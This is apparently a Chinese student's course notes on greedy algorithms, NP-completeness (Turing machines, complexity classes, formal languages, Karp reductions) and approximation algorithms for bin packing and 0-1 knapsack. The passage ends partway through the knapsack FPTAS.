贪心选择性质：我们可以通过做出局部最优（贪心）选择来构造全局最优解。换句话说，当进行选择时，我们直接做出在当前问题中看来最优的选择，而不必考虑子问题的解。
这也是贪心算法与动态规划的不同之处。在动态规划方法中，每个步骤都要进行一次选择，并且当前的选择通常依赖于子问题的解。但在贪心算法中，我们总是做出当时看来最佳的选择，然后求解剩下的唯一的子问题。贪心算法进行选择时可能依赖之前做出的选择，但不依赖任何将来的选择或是子问题的解。
如果进行贪心选择时我们不得不考虑众多选择，通常意味着可以改进贪心选择，使其更为高效。例如，在活动选择问题中，假定我们已经将活动按结束时间单调递增顺序排好序，则对每个活动能够只需处理一次。通过对输入进行预处理或者使用适合的数据结构（通常是优先队列），我们通常可以使贪心选择更快速，从而得到更高效的算法。
-
最优子结构：一个问题的最优解包含其子问题的最优解。
如前活动选择问题所述，通过对原问题应用一次贪心选择即可得到子问题，那么最优子结构的工作就是论证：将子问题的最优解与贪心选择组合在一起的确能生成原问题的最优解。这种方法隐含地对子问题使用了数学归纳法，证明了在每个步骤对子问题进行贪心选择，一步一步推进就会生成原问题的最优解。
对于一个很困难的问题去寻找一个合理的贪心思路是比较困难的，有时候我们需要去考虑把一些极端的情况，从中我们或许会发现具有哪些性质的解是我们最想要的（例如调度问题用这一思想就很容易想到可能的解法）。在多参数（例如调度问题有权重、完成时间、截止时间等参数）的情况下，我们也可以固定某些参数看另一些参数的变化等，这些小技巧都能帮助我们对问题的基本结构有一个观察。
NP完全性¶
约 3858 个字 1 张图片 预计阅读时间 15 分钟
这部分内容上课就没怎么听懂，课后看讲义也好多搞不清楚的地方，就只稍微写写一些基本的概念，不过据说在考试里这部分内容不会占很大的比重...
判定问题¶
回忆以前所学的内容，所谓算法就是为解决某些或某个特定问题而设计的一系列有序的操作。一个算法接收一个输入 \(I\)，并在有限时间内产生一个输出 \(O\)。
所谓判定问题，就是一个答案只有“是”或“否”的问题。
-
不可判定问题（undecidable problem）：是一个判定问题，但是可以被证明并不存在一个算法能够解决这个问题（也就是说不存在一个算法能够总是给出正确的“是或否”答案）。
- 例如：停机问题（halting problem）、哥德尔不完备定理（Gödel's incompleteness theorems）、波斯特对应问题（Post correspondence problem）等。
-
可判定问题（decidable problem）：是一个判定问题，可以被证明存在一个算法能够解决这个问题。
对于我们接下来讨论的复杂类，我们都默认是在讨论可判定问题。
图灵机¶
图灵机
图灵机（Turing Machine）是计算理论中的一个重要模型，它是由英国数学家艾伦·图灵（Alan Turing）在1936年提出的，用来形式化地描述计算的过程。图灵机的引入为后来的计算机科学、复杂度理论和自动机理论奠定了基础。图灵机被广泛用作定义“可计算性”和“计算问题”的基本模型。
基本构成¶
图灵机可以简单地看作是一个非常抽象的计算设备，它由以下几个部分组成：
-
无限长的纸带（Tape）： 图灵机的计算空间是由一条无限长的纸带构成。纸带上的每一格要么是空的，要么写有一个字符 \(s\)（\(s \in S\)，\(S\) 为有限集），符号的集合 \(S\) 称为“字母表” （Alphabet）。纸带可以向左或向右移动，模拟计算机的内存。
-
读写头（Head）： 图灵机上有一个读写头，它位于纸带上的某个格子。读写头的作用是读取当前位置的符号，并且可以根据计算过程的需要修改该位置的符号。读写头还可以沿着纸带向左或向右移动。
-
状态集（State Set）： 图灵机有一组可能的状态 \(Q\) ，图灵机在某一时刻总处于其中一个状态。状态集中有两个特殊的状态，分别是起始状态（Start State）和终止状态（Accepting / Rejecting State）。图灵机的计算就是通过从一个状态转换到另一个状态来进行的。
-
转移函数（Transition Function）： 转移函数描述了图灵机在当前状态 \(q\) 下，基于当前读写头所读取的符号 \(s\)，应该执行什么操作。操作包括：
- 修改当前位置的符号（更改符号、清空当前位置、往空格子上书写符号）
- 移动读写头（向左或向右）
- 转换到下一个状态
-
停机状态（Halting State）： 图灵机在某一时刻可能会进入停机状态，这时图灵机的计算过程结束。
工作原理¶
图灵机的工作过程可以描述为以下几个步骤：
- 图灵机从起始状态开始，读写头位于纸带的某个位置。
- 根据当前状态和读写头所在格子的符号，图灵机根据转移函数执行操作：
- 写一个符号到当前格子。
- 移动读写头（左移或右移）。
- 转换到一个新的状态。
- 图灵机继续执行上述步骤，直到它进入一个停止状态，或者陷入无法终止的循环。
Info
事实上上面定义的图灵机我们称为“确定性图灵机”（Deterministic Turing Machine），还有一种“非确定性图灵机”（Non-deterministic Turing Machine），
按照上面的定义，确定性图灵机对于当前的状态和读入的字符 \((q,s)\)，有一个唯一确定的转移函数 \(\delta(q,s) = (q', s')\)，也就是说要转移到的下一个状态是确定的。
而非确定性图灵机对于当前的状态和读入的字符 \((q,s)\)，转移函数的值域是一个集合 \(\delta(q,s) = \{(q_1, s_1), (q_2, s_2), \cdots\}\)，它有多种可能的转移方式。
- 对于所有可能的路径中，只要有一条路径能够使非确定性图灵机进入停机状态，那么我们就称它会停机。
- 在判定性问题中，只要有一条路径接受，那么整个图灵机就接受，也就是说只有所有路径都拒绝，整个图灵机才拒绝。
复杂类¶
几种常见的复杂类
我们称一个算法是一个多项式时间的算法，如果存在一个多项式 \(p(n)\)，使得对于任意输入 \(I\)，算法在多项式时间 \(p(n)\)（或多项式个步骤）内能够产生输出 \(O\)。
所谓 \(P\) 问题，就是所有可以被多项式时间算法解决的问题构成的集合。
\(NP\)（Non-deterministic Polynomial time）问题是一种复杂类，其中的问题可以在多项式时间内验证一个解是否正确，但是并不确定能够在多项式时间内找到一个解。
- 所谓验证（verify），就是给定一个解，把它带入到这个问题中，然后检查这个解是否正确。
显然，\(P \subseteq NP\)，因为一个问题如果可以在多项式时间内解决，那么它也一定可以在多项式时间内验证一个解是否正确。
多项式时间的验证
We say \(B\) is an efficient verifier for a problem \(X\) if
- \(B\) is a polynomial-time algorithm that takes two inputs: an instance \(x\) of \(X\) and a certificate \(y\).
- there exists a polynomial \(p\) such that for every \(x \in X\), there is a certificate \(y\) of length at most \(p(|x|)\) such that \(B\) accepts \((x, y)\).
co-NP
\(co-NP\) 是 \(NP\) 的补集，即 \(co-NP = \{L | \overline{L} \in NP\}\)。
\(NP\) 问题可以在多项式时间内验一个解是否正确，但不能在多项式时间内验一个解是否错误。而 \(co-NP\) 问题恰好相反，它可以在多项式时间内验证一个解是否错误，但不能在多项式时间内验证一个解是否正确。
\(NP\) 和 \(co-NP\) 都不一定在多项式时间内找到一个解。
\(NP\text{-hard}\) 问题是一种复杂类，是指所有的问题问题都可以在多项式时间内归约到 这一类问题。
这说明 \(NP\text{-hard}\) 问题至少不会比所有的 \(NP\) 问题更容易，因为如果我们解决了一个 \(NP\text{-hard}\) 问题，而 \(NP\) 问题可以在多项式时间内归约到这个问题，那么我们可以把这个归约倒推回去，就解决了所有的 \(NP\) 问题。
\(NP\text{-hard}\) 问题不一定是 \(NP\) 问题。
\(NPC\)（\(NP\text{-complete}\)）问题是指既是 \(NP\) 问题，又是 \(NP\text{-hard}\) 问题的一类问题，也就是说 \(NPC\) 问题是 \(NP\) 问题中的最困难的一类问题。 $$ NPC = NP \cap NP\text{-hard} $$ 如果一个 \(NPC\) 问题能在多项式时间内解决，那么所有的 \(NP\) 问题都能在多项式时间内解决。这就说明 \(NPC \subseteq P\)，于是 \(NP = P\)，也就是说 $$ NPC \subseteq P \Rightarrow NP = P $$
对以上四者的总结
- \(P\) 问题能在多项式时间内解决，也可以在多项式时间内验证。
- \(NP\) 问题可以在多项式时间内验证，但不一定能在多项式时间内解决。
- \(NPC\) 问题是 \(NP\) 问题的子集 \(NPC \subseteq NP\)
- \(NP\text{-hard}\) 问题是所有 \(NP\) 问题都可以在多项式时间内归约到的问题，但它未必是 \(NP\) 问题。

P 和 NP 的另一种定义
事实上 P 和 NP 还有另一种定义方式，但是只需要了解即可
- P 问题是指可以用一个确定性图灵机在多项式时间内解决的问题。
- NP 问题是指可以用一个非确定性图灵机在多项式时间内解决的问题。
一些常见的例子¶
多项式时间问题¶
-
欧拉回路问题（Eulerian Circuit Problem）：
给定一个无向图 \(G=(V,E)\)，判断是否存在一条简单回路，使得它包含图 \(G\) 的每一条边，且每一条边只经过一次。这个问题可以在 \(O(|E|)\) 的时间内使用深度优先搜索解决。
-
最短路径问题：
给定一个有向图 \(G=(V,E)\)，以及一个起点 \(s\) 和一个终点 \(t\)，求从 \(s\) 到 \(t\) 的最短路径。这个问题可以在 \(O(|V||E|)\) 的时间内解决，而对于一个图来说输入规模可以视为 \(|V|+|E|\)，因此这个问题可以在多项式时间内被解决。
NPC 问题¶
-
旅行商问题（Traveling Salesman Problem，TSP）：
给定一个无向图 \(G=(V,E)\)，以及一个起点 \(s\)，求一条简单回路，使得它包含图 \(G\) 的每一个顶点，且总长度最短。虽然我们不能在多项式时间内找到最优解，但如果给定一个候选解（即某条旅行路线），我们可以在多项式时间内验证其总距离是否最短。
-
3-SAT 问题：
给定一个含有若干个子句的布尔表达式，其中每个子句都包含三个变量，每个变量要么为真要么为假，求是否存在一种赋值方式使得整个公式为真。这是一个著名的 \(NPC\) 问题。
-
图着色问题（Graph Coloring Problem）：
给定一个无向图 \(G=(V,E)\)，以及一个正整数 \(k\)，求是否存在一种至多使用 \(k\) 种颜色的着色方式，使得图 \(G\) 的每一个顶点都被着色，且相邻的顶点不能被着相同的颜色。这也是一个 \(NPC\) 问题。
-
最大团问题（Maximum Clique Problem）：
给定一个图以及一个正整数 \(k\)，求是否存在一个包含至少 \(k\) 个顶点的团（即完全子图）。
0-1 背包问题
0-1 背包问题可以使用一个时间复杂度为 \(O(nC)\) 的动态规划算法解决，其中 \(n\) 为物品的数量，\(C\) 为背包的容量。但它并不是一个多项式时间的算法，因为容量 \(C\) 在输入时是以二进制形式给出的，位数是 \(d = \log C\) 级别的，因此这个算法实际上是 \(O(n2^d)\) 的时间复杂度，是输入的指数级别的。
需要不断提醒自己，多项式时间的算法是指用时是输入规模的多项式，而不是输入的数值的多项式。
形式语言¶
考虑一个含有至多可数个元素的集合 \(\Sigma\)，我们称这个集合为一个字母表（Alphabet）。字母表中的元素称为符号（Symbol），在 \(\Sigma\) 中的字符串（string）定义为有限个（包括 0 个）的有序连接。我们记所有这样的字符串构成的集合为 \(\Sigma^*\)。
我们取所有字符串 \(\Sigma^*\) 的一个子集 \(L\)，我们称这个子集 \(L\) 为一个形式语言（formal Language）。形式语言具有以下几个性质：
- 至多可数的集合上的有限字符串是可数的
- 语言可以做衔接、并、交、补、Kleene 闭包等运算
Note
-
判定问题：给定语言 \(L\)，判断某个字符串 \(\omega\) 是否在 \(L\) 中，这被称为判定问题（decision problem）；
- \(A\) solves (or decides) a language \(L\) if for every string \(\omega\), \(A\) outputs "yes" if \(\omega \in L\) and "no" if \(\omega \notin L\).
-
搜索问题：给定语言 \(L\)，寻找某个字符串 \(\omega\) 使得 \(\omega\) 在 \(L\) 中（search problem）；
- 转换问题：给定语言 \(L_1,L_2\)，计算某个从 \(L_1\) 到 \(L_2\) 的函数
PPT 上关于形式语言的定义
这定义就是一大坨，但是考试还大概率会遇见...😫
- An alphabet \(\Sigma\) is a finite set of symbols
- A language \(L\) over \(\Sigma\) is any set of strings made up of symbols from \(\Sigma\)
- Denote empty string by \(\varepsilon\)
- Denote empty language by \(\emptyset\)
- Language of all strings over \(\Sigma\) is denoted by \(\Sigma^*\)
- The complement of \(L\) is denoted by \(\overline{L} = \Sigma^* - L\)
-
The concatenation of two languages \(L_1\) and \(L_2\) is the language
\(L = \{ x_1x_2 : x_1 \in L_1 \text{ and } x_2 \in L_2 \}\)
-
The closure or Kleene star of a language \(L\) is the language $$ L^*= {\varepsilon} \cup L \cup L^2 \cup L^3 \cup \cdots$$ where \(L^k\) is the language obtained by concatenating \(L\) to itself \(k\) times
-
Algorithm \(A\) accepts a string \(x \in \{0, 1\}^*\) if \(A(x) = 1\)
- Algorithm \(A\) rejects a string \(x\) if \(A(x) = 0\)
- A language \(L\) is decided by an algorithm \(A\) if every binary string in \(L\) is accepted by \(A\) and every binary string not in \(L\) is rejected by \(A\)
- To accept a language, an algorithm need only worry about strings in \(L\), but to decide a language, it must correctly accept or reject every string in {0, 1}*
- 字母表：\(\Sigma\) 是一个有限的符号集合
- 语言：\(L\) 是由 \(\Sigma\) 中的符号组成的字符串集合
- 空字符串：用 \(\varepsilon\) 表示
- 空语言：用 \(\emptyset\) 表示
- 所有字符串上的语言：用 \(\Sigma^*\) 表示（这个定义非常奇怪）
- 补语言：\(L\) 的补集用 \(\overline{L} = \Sigma^* - L\) 表示
- 连接：两个语言 \(L_1\) 和 \(L_2\) 的连接是 \(L = { x_1x_2 : x_1 \in L_1 \text{ and } x_2 \in L_2 }\)
-
闭包或 Kleene 星：是 \(L^* = {\varepsilon} \cup L \cup L^2 \cup L^3 \cup \cdots\)，其中 \(L^k\) 是将 \(L\) 自身连接 \(k\) 次得到的语言
-
对于一个字符串 \(x \in {0, 1}^*\)，如果 \(A(x) = 1\)，则称算法 \(A\) 接受 \(x\)
- 对于一个字符串 \(x\)，如果 \(A(x) = 0\)，则称算法 \(A\) 拒绝 \(x\)
- 如果一个算法 \(A\) 对语言 \(L\) 中的每个二进制字符串都接受，并且对不在 \(L\) 中的每个二进制字符串都拒绝，那么我们说 \(A\) 决定（判定、解决）了语言 \(L\)。
Karp 归约¶
Karp 归约
设 \(L_1\) 和 \(L_2\) 是两个形式语言，如果存在一个多项式时间的算法 \(f\)，使得对于任意字符串 \(\omega\)，我们有
那么我们称 \(L_1\) 可以在多项式时间内归约（或 Karp 归约，reduce）到 \(L_2\)，记作 \(L_1 \leqslant_p L_2\)。
这说明 \(L_2\) 的“难度”至少不低于 \(L_1\) 。
如果 \(L_1 \leqslant_p L_2\) 且 \(L_2 \leqslant_p L_1\)，那么我们称 \(L_1\) 和 \(L_2\) 是多项式时间等价的，记作 \(L_1 \equiv_p L_2\)。
Note
考虑一个复杂度类 \(C\)，如果一个问题 \(P\) 满足 \(x \in C, x \leqslant_p P\)，那么我们就说 \(P\) 是 \(C\) 困难的；如果同时 \(P \in C\)，那么我们就说 \(P\) 是 \(C\) 完全的。
回顾我们之前关于 \(NP\text{-hard}\) 和 \(NPC\) 的定义，我们可以发现：
- 如果发现一个可以在多项式时间内解决的 \(NPC\) 问题，那么根据 \(P \subseteq NP\)，我们可以得到 $$ NP \leqslant_p NPC \subseteq P \Longrightarrow NP = P $$
- 如果可以证明所有的 \(NPC\) 问题都不能在多项式时间内解决，那么就说明 $$ NPC \not\subseteq P \Longrightarrow NP \neq P $$ 但是直到目前为止，还没有人能证明 \(P \neq NP\) 或者 \(P = NP\)。
近似算法¶
约 5924 个字 预计阅读时间 24 分钟
最优化问题
整体而言，我们对一个最优化问题的算法有如下三个期望：
- 算法要能找到确切的最优解（optimality）
- 算法能高效（通常是多项式时间）运行（efficiency）
- 算法是通用的，能够解决所有问题（all instances）
然而对于一些问题，例如 NP 完全问题而言，我们目前无法同时做到以上三点，因此我们需要做一些妥协。
- 如果算法舍弃第二个期望，则是用例如回溯等方法在指数时间内解决问题，这对于输入不大的情况是可以接受的
- 如果舍弃第三个期望，我们相当于为问题找到一些容易解决的特例
- 如果舍弃第一个期望，但我们能保证高效找到的解是和真正的最优解“相差不大”的，那么我们称这类算法为近似算法
基本概念¶
近似算法
假设有某类问题 \(\mathcal{I}\)（例如背包问题），其中的一个具体实例记为 \(I\)（如当背包问题的参数给定的时候即为一个实例），且有一个复杂度为多项式的近似算法 \(A\)。定义：
- \(A(I)\) 为算法 \(A\) 在实例 \(I\) 上得到的解；
- \(\text{OPT}(I)\) 为实例 \(I\) 的最优解。
考虑 \(\mathcal{I}\) 是最小化问题，若存在 \(r \geqslant 1\)，对任意的 \(I\) 都有： $$ A(I) \leqslant r \cdot \text{OPT}(I) $$ 那么称 \(A\) 为该问题的 \(r\)-近似算法（即对于任何可能的问题实例，\(A\) 给出的解都不会比最优解的 \(r\) 倍大）。我们特别关心其中可以取到的最小 \(r\)，称： $$ \rho = \inf \{r : A(I) \leqslant r \cdot \text{OPT}(I), \forall I \} $$ 为 近似比（approximation ratio），即算法 \(A\) 最紧的近似界。它可以等价定义为： $$ \rho = \sup_{\mathcal{I}} \frac{A(I)}{\text{OPT}(I)} $$ 即这个比值在多实例中的比值是最紧的界。反之，如果是最大化问题，那么上述公式改为： $$ \rho = \sup_{\mathcal{I}} \frac{\text{OPT}(I)}{A(I)} $$
将两者合并起来，可以统一写作： $$ \rho = \sup_{\mathcal{I}} \left\{ \frac{\text{OPT}(I)}{A(I)}, \frac{A(I)}{\text{OPT}(I)} \right\}. $$
因为 \(\text{OPT}(I)\) 通常是未知的，因此对于给定的一类问题 \(\mathcal{I}\) 和 算法 \(A\)，我们很难直接根据定义求出 \(A\) 的近似比，因此只能通过 \(\text{OPT}(I)\) 的范围来估计一个近似比。以最小化问题为例，确定近似比需要以下两个步骤：
- 首先寻找到一个 \(r > 1\)，对于任何实例 \(I\)，都有 \(A(I) \leqslant r \cdot \text{OPT}(I)\)（可以首先找到 $\text{OPT}(I) $ 的一个下界 $ \text{LB}(I) \leqslant \text{OPT}(I) $，然后让 $ A(I) \leqslant r \cdot \text{LB}(I) $ 即可）
- 接下来证明 \(r\) 是不可改进的，即对于任意的 $ \varepsilon > 0 $，都存在在一个实例 $ I_\varepsilon $，使得 $ A(I_\varepsilon) \geqslant (r-\varepsilon) \cdot \text{OPT}(I_\varepsilon) $。
近似方案
我们设 \(|I|\) 代表问题 \(I\) 的规模，\(f\) 是一个可计算函数，不一定为多项式函数，那么有
-
PTAS（多项式时间近似方案，Polynomial time approximation scheme）：
存在算法 \(A\)，使得对每一个固定的 \(\varepsilon \geqslant 0\)，对任意的实例 \(I\) 都有 $$ A(I) \leqslant (1+\varepsilon) \cdot \text{OPT}(I) $$
且算法 \(A\) 的运行时间可以被问题规模 \(|I|\) 的多项式上界所限制。则称 \(A\) 是该问题的一个 PTAS。
理论上，算法 \(A\) 在多项式时间内可以无限近似；不过对于不同的 \(\varepsilon\)，\(A\) 的运行时间的上界也可能不同。例如，如果算法 \(A\) 的复杂度为 \(O( |I|^{1/\varepsilon})\) 甚至 \(O(|I|^{\text{exp} (1/\varepsilon)})\) 时，这样算法的表现就会很糟糕，因为指数很大。一般可以将 PTAS 的复杂度记为 $ O(|I|^{f(1/\varepsilon)}) $。
-
EPTAS（Efficient PTAS）：
在 PTAS 的基础上，要求算法 \(A\) 的复杂度是 \(O(|I|^c)\) 的，其中 \(c \geqslant 0\)是与 \(\varepsilon\) 无关的常数。可以将 EPTAS 的复杂度记为 \(|I|^{O(1)} f(1/\varepsilon)\)。
-
FPTAS（Fully PTAS）：
在 PTAS 的基础上，要求算法 \(A\) 的运行时间关于 \(|I|\) 和 \(\varepsilon\) 都呈多项式，即可以将 FPTAS 的复杂度记为 \(|I|^{O(1)} (1/\varepsilon)^{O(1)}\)。
一维装箱问题¶
问题描述
给定若干个带有尺寸的物品，要求将所有物品放入容量给定的箱子中，使得每个箱子中的物品尺寸之和不超过箱子容量，并且使用的箱子数目最少。简单起见，我们一般将上述模型标准化：给定 \(n\) 个尺寸在 \((0,1]\) 内的物品 \(a_1,a_2,\cdots,a_n\)，每个箱子的容量为 1，目标是使用数量尽可能少的单位容量箱子装下所有物品，即每个箱子中物品尺寸和都不超过 1。
事实上我们也可以令每个箱子的容量为 \(C\)，物体的尺寸在 \((0,C]\) 内，这也并不影响对这个问题的讨论，但是为了方便起见，我们通常令 \(C=1\)。
Theorem
给定若干个物品，判断它们是否可由两个箱子装下是 NP 完全的。
Theorem
对于一维装箱问题，除非 \(P=NP\)，否则装箱算法不存在多项式算法有小于 \(3/2\) 的近似比。
也就是说不存在一个算法 \(A\)，使得对于任意实例 \(I\)，都有 $$ A(I) \leqslant \alpha \cdot \text{OPT}(I) $$ 其中 \(\alpha < 3/2\)。
Proof
使用反证法，如果存在近似比小于 \(\frac{3}{2}\) 的多项式时间近似算法 \(A\)，那么可以用这个算法 \(A\) 来解决属于 NPC 的判断物品是否可以由两个箱子装下的问题。
-
如果物品可以由两个箱子装下，即 \(\text{OPT}(I)=2\)，则 \(A(I) < \frac{3}{2} \cdot 2 = 3\)。由于这个近似算法返回的结果一定是一个整数，于是只能有 \(A(I) = 2\)。
因此我们知道，当使用这个近似算法得到的值是 2 时，这些物品可以由两个箱子装下。
-
如果物品不可以由两个箱子装下，那么 \(\text{OPT}(I) \geqslant 3\)，因为 \(A(I)\) 不可能小于最优解，于是 \(A(I)\) 至少为 3，即 \(A(I) \geqslant 3\)。
但是由于近似比小于 \(\frac{3}{2}\)，所以由 \(A(I)\geqslant 3\) 可以反推出来最优解不可能是 2，于是我们就发现当这个近似算法的结果大于等于 3 时时，这些物品不可能由两个箱子装下。
综上所述，我们就通过这个多项式时间的近似算法判断出了两个箱子的装箱问题，而这是一个 NPC 问题，于是就只可能 \(P=NP\) 。
在装箱问题中，我们一般不关心全部的实例，而关心 \(\text{OPT}(I)\) 较大的那些实例。因此定义 “渐近近似比（asymptotic approximation ratio）” 如下：
渐近近似比
对于任意常数 \(\alpha \geqslant 1\),对于任意实例 \(I\)，存在常数 \(k\)，使得 $$ A(I) \leqslant \alpha \cdot OPT(I) + k $$
则称所有满足上式的 \(\alpha\) 构成的集合的下确界为 \(A\) 的渐近近似比。
\(k\) 可以是一个固定的常数，也可以是 \(o(OPT(I))\)，只需要在 \(OPT(I)\) 充分大时 \(k/OPT(I) \to 0\) 即可。
吴一航学长的ADS讲义
装箱问题中，若所有的物品信息在开始装箱前已知，则它是离线（offline）问题；若初始时物品信息并不全部给出，例如物品在传送带上逐个到达，需要我们即时安排，而我们对未到达物品的信息一无所知，同时做出的决定无法更改，此时称为在线（online）问题。
“近似比”通常用来描述离线问题近似算法的性能。而对于在线问题，一般用“竞争比（competitive ratio）”的概念。近似比的存在来自于计算资源有限，而竞争比的存在来自于对问题信息所知有限。
Next Fit¶
Next Fit（NF）算法是一种简单的装箱算法，其思想是：每次遇到一个物品，如果当前打开的箱子有足够的空间，就把这个物体放进去；如果空间不够就把当前箱子关闭（不再接受任何新的物品），然后新开一个箱子把物体放进去。
- Next Fit 有一个特点，就是相邻的两个箱子内的物品大小之和一定大于 1，否则这两个箱子里的物品就应当放进同一个箱子里去。
根据上面的性质，我们可以证明 $$ NF(I) \leqslant 2 \cdot OPT(I) - 1 $$ 或 $$ OPT(I) \geqslant \frac{NF(I)+1}{2} $$ 也就是说，如果使用 NF 算法得到的箱子数目是 \(2M\)（或 \(2M+1\)），那么最优解至少要用到 \(M+1\) 个箱子。
Proof
令 \(S(B_i)\) 为箱子 \(B_i\) 中物品尺寸之和，\(S(B_i) \leqslant 1\)， \(2M\) 为 NF 算法得到的箱子数目。那么有
把上面的 \(M\) 个不等式相加，就得到 $$ \sum_{i=1}^{2M} S(B_i) > M $$
因此所有物体的大小总和大于 \(M\)，那么最优解也至少要用到 \(M+1\) 个箱子，即 \(OPT(I) \geqslant M+1\)。
NF 算法的近似比
实际上 NF 装箱算法的近似比就是 2，而我们刚刚得到的 \(NF(I) \leqslant 2 \cdot OPT(I) - 1\) 告诉我们近似比不会大于 2.
我们还可以考虑下面的一个实例：令所有物品的大小为 \(\varepsilon, \dfrac{1}{2}, \varepsilon ,\dfrac{1}{2}, \cdots\)，共有 \(2M-1\) 组 \(\{ \varepsilon, \dfrac{1}{2} \}\)，且 \(\varepsilon > 0\) 充分小。那么很显然最优解为 \(M-1\)，NF 算法得到的结果是 \(2M-1\)，超过了最优解的两倍。这就告诉我们对于任何的 Next Fit 算法，总能构造一个实例使得它的近似比不能小于 2，因此近似比的下界是 2.
综合上面两点我们就知道，NF 算法的近似比就是 2。
很显然 NF 浪费了很多的空间，近似效果并不好，我们可以考虑其他的方法。
Any Fit¶
Any Fit 是一类 Fit 方案，满足如下性质：当物品到达时，除非所有目前打开的箱子都无法装下该物品，才允许打开一个新箱子。包括下面几种：
- First Fit（FF）：优先选择最早被打开的箱子填入
- Best Fit（BF）：优先选择最满的箱子（剩余空间最小）填入
- Worst Fit（WF）：优先选择最空的箱子（剩余空间最大）填入
- Almost Worst Fit（AWF）：优先选择剩余空间第二大的箱子填入
前面的所有 Fit 算法都是在线算法。此外，Any Fit 的三种算法都满足相邻两个箱子物品尺寸之和大于 1，因此它们都不会比 NF 差。而前面 NF 的近似比下界实例也适用于 WF，因此 WF和 NF 一样差。
FF vs BF
从定义来看 BF 算法似乎比 FF 算法有更高的箱子利用率，但并非总是如此。我们可以考虑下面两个实例，物体的大小分别为
-
0.5、0.7、0.1、0.4、0.3
FF 需要 2 个箱子，BF 需要 3 个箱子
-
0.5、0.7、0.3、0.5
FF 需要 3 个箱子，BF 需要 2 个箱子
这两个例子说明不会存在“BF总比FF好”或者“FF总比BF”好的结论
可以证明的是：
- NF 和 WF 的近似比都是 2
- 而任意的 Almost Any Fit（AAF）算法都可以达到相同的近似比：1.7
- 对于任意实例 \(I\)，有 $$ FF(I) \leqslant 1.7 \cdot OPT(I) + \dfrac{4}{5} $$
具体的证明比较长，就不抄了(×)
离线算法
上面我们说的几种 Fit 都是在线算法，假如我们提前知道了需要装进箱子的所有物品的大小，并允许我们把物体从大到小降序排列，再使用 First Fit，这种方法就叫做 First Fit Decreasing（FFD）。
显然这是一种离线算法，因为要在知道所有的输入的前提下才能排序，我们有两个结论：
- 绝对近似比 \(FFD(I) \leqslant \dfrac{3}{2} OPT(I)\)
- 渐进近似比 \(FFD(I) \leqslant \dfrac{11}{9} OPT(I) + \dfrac{6}{9}\)
0-1 背包问题¶
基础的 2-近似算法¶
对于分数背包问题（一个物体可以被切割成多份），我们可以直接使用贪心算法，使得背包每一单位重量的价值最大化，这样得到的解就是最优解。但是对于 0-1 背包问题，我们可以轻而易举地举出这样的算法的一个反例：
- 有两个物品，第一个物品的价值为 1，重量为 1，第二个物品的价值为 2，重量为 3，背包的容量为 3。我们的贪心策略是让每单位重量的价值最大化，因此贪心算法的选择结果是选择第一个物品，然后就发现不能装下任何其他物品了；但实际上最优解显然是选择第二个物品，这样背包的价值为 2，而贪心算法的解为 1。因此贪心算法并不是最优的。
为了得到近似比，我们需要进一步改进我们的贪心算法：我们有两个贪心策略，其一是根据这里的单位重量的价值（profit density），其二是直接贪心选择最大价值的物品，我们尝试运行两个贪心算法，并选择两者中的最优解，我们可以证明，这样结合后的近似比为 2。设
- \(P_{frac}\) 为分数背包问题的最优解；
- \(P_{OPT}\) 为 0-1 背包问题的最优解；
- \(P_{greedy}\) 为贪心算法的解；
- \(p_{max}\) 为装得下的物品中价值最大的物品的价值；
$$ p_{max} \leqslant P_{greedy} \leqslant P_{OPT} \leqslant P_{frac} $$ 上面第一个不等号是因为其中一种贪心策略是按价值从大到小贪心选择，因此价值最大的（当然前提是能放下）物品一定会被选择，所以价值会小于贪心策略得到的总价值；第二个不等号是因为贪心策略是一个可行解，一定小于等于最优解。
于是我们的近似比就有上界 $$ \dfrac{P_{OPT}}{P_{greedy}} \leqslant \dfrac{P_{frac}}{P_{greedy}} \leqslant \dfrac{P_{greedy}+p_{max}}{P_{greedy}} = 1 + \dfrac{p_{max}}{P_{greedy}} \leqslant 2 $$ 其中第二个不等号的 \(P_{frac} \leqslant P_{greedy}+p_{max}\) 是因为按照贪心策略，我们把分数背包问题最优解中那个被分割成分数个的物品舍去了，而这个被舍去的物品价值一定小于等于 \(p_{max}\)。
下面我们只需要证明 2 的近似比是不可以再被优化的，考虑下面的一个例子
Example
假设背包容量为 3，有 3 个物品，价值分别为 \(2+2\varepsilon, \, 2, \, 2\)，重量分别为 \(2+\varepsilon, \, 2, \, 2\)，其中 \(\varepsilon\) 是一个充分小的正数。
两种贪心策略的结果都是选择第一个物品，并且选择它之后就没有空位放别的物品了，因此总价值为 \(2+2\varepsilon\)。而最优解是选择后两个物品，总价值为 4。
当 \(\varepsilon \to 0\) 时，贪心策略的近似比趋近于 2，这告诉我们我们总可以找到一个实例表明任意小于 2 的实数都不会是这个近似算法的近似比，即近似比的下界是 2。因此近似比 2 是不可改进的，所以我们在 0-1 背包问题中的贪心算法是一个 2-近似算法。
FPTAS 算法¶
现在我们讨论一个更美好的算法，即一个可以无限近似的算法。利用动态规划一讲的算法我们知道 0-1 背包问题是有伪多项式算法的，即其复杂度是 \(O(nC)\) 的，其中 \(n\) 是物品的数量，\(C\) 是背包的容量。
但我们可以换个角度进行动态规划，我们的数组第二个维度不再是背包的容量，而是价值，即我们原先的数组是 \(A[i][c]\) 表达的是前 \(i\) 个物品放入容量为 \(c\) 的背包的最大价值，现在我们用 \(W_{i,v}\) 来表示前 \(i\) 个物品放入总价值为 \(v\) 的背包所需要的最小重量，那么
- 第 \(i\) 个物体在背包中，那么 \(W_{i,v} = W_{i-1,v-v_i} + w_i\)
- 第 \(i\) 个物体不在背包中，那么 \(W_{i,v} = W_{i-1,v}\)
于是就可以得到的递推方程
显然，这一动态规划的复杂度是 \(O(nV)\) 的，其中 \(V\) 是所有物品的价值之和。我们做个简单的变换，设 \(v_{max}\) 是所有物品的价值的最大值，那么显然有 \(V \leqslant nv_{max}\)，因此我们的复杂度是 \(O(n^2 v_{max})\) 的。
这时候我们发现，如果 \(v_{max}\) 的大小是 \(n\) 的多项式级别的，我们将得到一个多项式时间的算法。然而并非所有实例都能满足这一条件，因此我们需要对输入的价值做一些技术性的处理，即对输入的所有价值做同比例的缩小，使得 \(v_{max}\) 能缩小到 \(n\) 的多项式级别
接下来我们就需要确定缩放比例 \(b\)，将 \(v_i\) 的价值等比例缩小到 \(\dfrac{v_i}{b}\)。
Tip
- 首先我们给定想要达到的近似比率 \(\varepsilon\)，那么我们令缩放比例为 \(b = \dfrac{\varepsilon v_{max}}{n}\)
- 接着我们把所有价值缩放并且向上取整为 \(\lceil v_i/b \rceil\)（向下取整也可以，取整是因为我们要把这些价值作为数组的下标）然后运行动态规划算法得到最优解 \(v\)，这是我们把所有价值等比例缩小后得到的最大价值
